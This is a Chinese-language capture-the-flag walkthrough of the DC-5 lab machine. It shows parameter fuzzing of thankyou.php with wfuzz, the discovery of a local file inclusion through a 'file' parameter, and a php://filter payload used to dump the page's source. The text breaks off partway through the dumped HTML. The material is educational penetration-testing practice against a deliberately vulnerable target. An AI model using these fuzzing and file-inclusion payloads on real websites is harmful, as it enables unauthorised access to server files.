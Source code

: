 在网页上没找到什么有用的信息，但是在Contact里找到了一个表单。

![image-20210330172024852](image-20210330172024852.png)

随便提交了点东西：

![image-20210330172046905](image-20210330172046905.png)

也只是明确了参数。

到这里仿佛陷入了僵局。但是在不断的点击页面发现再提交一次Contact us好像有些东西有点变化：

![image-20210330172201631](image-20210330172201631.png)

可以看到页脚的年份变了，之前dirb扫出了footer.php，访问发现：

![image-20210330172254102](image-20210330172254102.png)

奇怪的是刷新又变了：

![image-20210330172312773](image-20210330172312773.png)

刷新thankyou.php页脚也在不断的变化，可以笃定footer.php被thankyou.php引用了。

但是这好像也没什么用，到此处本人已经陷入了困境，已经不太清楚该如何下手了，于是无耻的Google了一下，看到别人的思路是fuzz测试一下页面参数，于是我就无耻地直接参照思路fuzz test一下：

```bash
wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.145.138/thankyou.php?FUZZ= --hh 851
```

好像。。。捞到了点不得了的东西：

![image-20210330173057042](image-20210330173057042.png)

file参数，看看是不是文件包含！

![image-20210330173142490](image-20210330173142490.png)

果然是文件包含！

用伪协议读取一下thankyou.php的源代码：

```
http://192.168.145.138/thankyou.php?file=php://filter/read=convert.base64-encode/resource=thankyou.php
```

居然是这样的：

```php+HTML
<!doctype html>
<html lang="en">
<head>
	<meta charset="utf-8">
	<title>Contact</title>
	<link rel="stylesheet" href="css/styles.css">
</head>
<body>
	<div class="body-wrapper">
		<div class="header-wrapper">
			<header>
				DC-5 is alive!
			</header>
		</div>
		<div class="menu-wrapper">
			<menu>
				<ul>
					<a href="index.php"><li>Home</li></a>
					<a href="solutions.php"><li>Solutions</li></a>
```